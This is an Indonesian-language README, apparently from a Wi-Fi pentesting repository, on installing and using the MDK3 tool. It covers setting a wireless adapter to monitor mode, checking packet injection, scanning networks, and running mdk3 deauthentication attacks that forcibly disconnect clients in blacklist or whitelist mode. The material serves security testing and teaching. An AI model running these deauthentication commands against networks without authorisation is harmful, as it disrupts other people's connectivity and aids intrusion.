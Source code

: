 # MDK3

![MDK3](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/mdk3/img/mdk3_4.jpg)

## Instalasi

Kali Linux:

1. Menggunakan package manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install mdk3 aircrack-ng
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential libpcap-dev git
   git clone https://github.com/charlesxsh/mdk3-master
   cd mdk3-master
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi:**

```
sudo airodump-ng [interface]
```

**2. Jalankan MDK3:**

   1. Blacklist mode:

      ```
      mdk3 wlan0 d -b [file_blacklist] -c [channel]
      ```

      Blacklist mode itu hanya melakukan deauth terhadap client yang ada di file `[file_blacklist]`. Client lainnya akan diabaikan.
   2. Whitelist mode:

      ```
      mdk3 wlan0 d -w [file_whitelist] -c [channel]
      ```

      Whitelist mode itu kebalikan dari blacklist mode. Semua client akan di-deauth, kecuali yang ada di file `[file_whitelist].` (dilindungi).

## Video Demonstrasi

[https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z](https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z)

